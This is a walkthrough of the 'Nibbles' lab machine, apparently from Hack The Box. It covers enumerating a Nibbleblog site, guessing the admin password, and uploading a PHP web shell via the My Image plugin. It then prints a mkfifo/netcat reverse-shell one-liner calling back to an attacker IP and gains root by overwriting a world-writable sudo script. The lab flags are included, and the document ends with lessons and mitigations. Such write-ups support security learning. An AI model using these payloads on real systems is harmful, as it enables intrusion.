## Overview

> **Machine:** `Nibbles`  
> **OS:** Linux  
> **Difficulty:** Easy  
> **IP:** `10.129.200.170`



---

## Reconnaissance

First, I run a standard **Nmap scan** to gather general information about the target (open ports, services, versions, OS, etc.).

```text
> sudo nmap -Pn -n -A 10.129.200.170
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-22 05:17 -0400
Nmap scan report for 10.129.200.170
Host is up (0.57s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   546.96 ms 10.10.16.1
2   273.38 ms 10.129.200.170
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.21 seconds
```

After analyzing the results, I know the target is a **Linux** machine running 2 services (**OpenSSH** and **HTTP**). As a first instinct, I check for any known vulnerability or public exploit for **OpenSSH 7.2p2 Ubuntu 4ubuntu2.2** and **Apache httpd 2.4.18 (Ubuntu)**, but find nothing.

I don't think **SSH** is a promising attack vector, so I explore the **web (HTTP)** side instead. Browsing to `http://10.129.200.170/` with Firefox, the page only displays a "Hello World!" message.



But when I check the HTML source code, I find a hidden path in a comment (`/nibbleblog`). Visiting it reveals a blog site.





I poke around trying to find useful information but come up empty, so I run `gobuster` for directory & file enumeration, hoping to uncover hidden paths or interesting endpoints.

```text
> gobuster dir -url http://10.129.200.170/nibbleblog/ -wordlist /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htpasswd            (Status: 403) [Size: 309]
.htaccess            (Status: 403) [Size: 309]
.hta                 (Status: 403) [Size: 304]
README               (Status: 200) [Size: 4628]
admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
admin.php            (Status: 200) [Size: 1401]
content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
index.php            (Status: 200) [Size: 2987]
languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

With those in hand, I check each one:

- `http://10.129.200.170/nibbleblog/README` reveals the Nibbleblog version (**4.0.3**), a crucial piece of information - `searchsploit` turns up a public exploit for it. However, the exploit requires valid credentials (username:password), so I can't proceed just yet.

    

    

- `http://10.129.200.170/nibbleblog/admin.php` shows a login page. I try some common credentials (admin, password, etc.) but can't log in.

    

- `http://10.129.200.170/nibbleblog/index.php` triggers a failed GET request to `http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.jpg`, which looks interesting.

    

- `http://10.129.200.170/nibbleblog/content/private/plugins/my_image/` is the path that failed request was trying to load. This looks like a potential angle to exploit later, so I take note of it.

    

- `http://10.129.200.170/nibbleblog/content/private/users.xml` looks like a log recording failed login attempts. Based on its content, I guess `admin` is a valid username (still just a guess at this point).

    

- I also check `/admin/`, `/plugins`, `/languages`, and `/themes`, but find nothing interesting.

Based on everything above, I think the missing piece to solve this challenge is a valid credential, and I now have a valid username (`admin`), so I need to do some password guessing/brute-forcing. Luckily, after trying a few common passwords and some keywords from the index.php page (like yumyum, nibbleblog, nibble, etc.), I find the correct password: `nibbles`. I doubt I'd get this lucky in a real engagement, but I'll take it. With valid credentials in hand, I log in and land on the admin dashboard.



While poking around, the **My Image** plugin catches my attention - it allows file uploads (which could be used to upload a PHP web shell) and its name matches the path I noted earlier (`http://10.129.200.170/nibbleblog/content/private/plugins/my_image/`). So my plan is: upload a PHP web shell through this plugin, then trigger it through that path to get RCE (Remote Code Execution).



---

## Foothold

I create a simple `shell.php` file (`<?php echo "Shell: ";system($_GET['cmd']); ?>`) and upload it. Despite a number of warnings on screen, a notification at the bottom of the page confirms the file was uploaded successfully.



Checking `http://10.129.200.170/nibbleblog/content/private/plugins/my_image/` again, I see a new file: `image.php`. Adding the `?cmd=ls` parameter to the URL returns the command output, confirming I have my initial foothold.



This simple web shell isn't robust enough to comfortably finish the challenge, so I upgrade it to a full TTY shell, following this path: Web Shell → Dumb Shell (Netcat) → Pseudo-TTY (Python) → Full TTY.

To upgrade the web shell to a netcat dumb shell, I change the content of `shell.php` to the following and upload it again, then set up a netcat listener on my machine with `nc -lvnp 9999`.

```bash
<?php system('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.16.57 9999 >/tmp/f'); ?>
```

Visiting `http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php` again triggers the callback, and I get a dumb shell.



To upgrade it further into a pseudo-TTY and then a full TTY, I follow these steps:

```text
# Step 1 - Spawn a PTY
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Step 2 - Background the shell with Ctrl+Z, then run these commands
# (the formatting will look messy for a moment, but stick with it)
stty raw -echo; fg

# Step 3 - Fix the terminal environment
export TERM=xterm-256color
export SHELL=/bin/bash

# Step 4 - Match terminal dimensions if they don't already match
stty rows 50 cols 220   # adjust to your terminal's actual dimensions
```

After completing these steps, I get a fully interactive TTY session with the same capabilities as a local terminal.



That's robust enough to finish the challenge. I find the `user.txt` flag in `/home/nibbler` and read its content.

```text
user.txt: 79c03865431abf47b90ef24b9695e148
```

One flag down. Next, I need to read `root.txt`, located in `/root`, which requires root privileges.

---

## Privilege Escalation

As a common first step for Linux privilege escalation, I run `sudo -l` to check for any command I can run as root without a password:

```text
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$
```

I can run `/home/nibbler/personal/stuff/monitor.sh` as root without a password. After extracting it from `personal.zip`, I notice I also have write permission to that script:

```text
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ ls -la personal/stuff/
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
nibbler@Nibbles:/home/nibbler$
```

Since `sudo` only restricts _which_ file is executed as root - not what that file contains - I can overwrite `monitor.sh` with a shell payload and it will run as root the moment `sudo` invokes it:

```bash
nibbler@Nibbles:/home/nibbler$ echo '/bin/bash' > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
```

This spawns a root shell.



From here it's straightforward - I read `/root/root.txt` to grab the final flag. Done!

```text
root.txt: de5e5d6619862a8aa5b9b212314e0cdd
```

---

## Flags

```text
user.txt: 79c03865431abf47b90ef24b9695e148
root.txt: de5e5d6619862a8aa5b9b212314e0cdd
```

---

## Lessons Learned

- **Information disclosure via HTML comments:** the initial `/nibbleblog` path was leaked through a developer comment left in production HTML. Even small, seemingly harmless notes can hand an attacker the first thread to pull.
- **Unrestricted file upload (CVE-2015-6967):** Nibbleblog's "My Image" plugin (versions before 4.0.5) stored uploaded files under a predictable, directly web-accessible path and did not validate the file's extension or content type. Uploading a `.php` file was enough to get code execution once the file was requested directly - a textbook unrestricted file upload leading to RCE.
- **Weak/guessable credentials:** the admin password (`nibbles`) was a simple variation of the application's own name/theme, which is a common (and often successful) guessing strategy against low-effort setups.
- **Dangerous sudo configuration:** `sudo` was configured to allow running a specific script as root, but the script itself was world-writable. Restricting _which binary_ can run as root means nothing if the invoking user can rewrite that binary's contents beforehand - this is one of the most common real-world sudo misconfigurations.

---

## Mitigations

1. **Strip debug/internal comments from production code.** Any hint about internal paths, admin panels, or unused endpoints should never ship to a public-facing page.
2. **Keep CMS software and plugins up to date**, and remove or disable plugins that aren't in active use (like unused file-upload features) to reduce attack surface.
